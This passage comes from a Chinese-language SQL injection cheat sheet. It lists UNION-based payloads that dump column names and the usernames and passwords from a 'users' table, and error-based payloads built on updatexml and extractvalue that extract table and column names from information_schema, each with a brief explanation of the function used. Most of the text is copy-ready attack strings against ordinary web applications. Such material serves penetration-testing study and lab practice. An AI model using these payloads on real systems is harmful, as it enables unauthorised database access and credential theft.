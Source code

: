 ```sql
'-1' union select 1,group_concat('</br>',column_name),3 from information_schema.columns where table_schema=database() and table_name='users' %23
```

3. 获取字段值。

```sql
'-1' union select 1,group_concat('</br>',username),group_concat('</br>',password) from users %23
```

* 报错注入

`updatexml`

```sql
UPDATEXML (XML_document, XPath_string, new_value) 改变文档中符合条件的节点的值。
XML_document：String 格式，为 XML 文档对象的名称。
XPath_string ：Xpath 格式的字符串。
new_value：String 格式，替换查找到的符合条件的数据。
```

1. 获取表名

```sql
'1' and (updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)) --+
```

2. 获取字段名

```sql
'1' and (updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1))--+ 
```

`extractvalue`

```sql
Extractvalue(xml_frag, xpath_expr) 函数使用 XPath 表示法从 XML 字符串中提取值。
xml_frag: 目标 xml 文档。
xpath_expr: 利用 Xpath 路径法表示的查找路径。
```

1. 获取表名

```sql
'1' and (extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))) --+
```

2. 获取字段名

```sql
'1' and (extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))) --+ 
```

`floor`

```sql
floor(x) 函数，向下取整,返回一个不大于x的值。
```
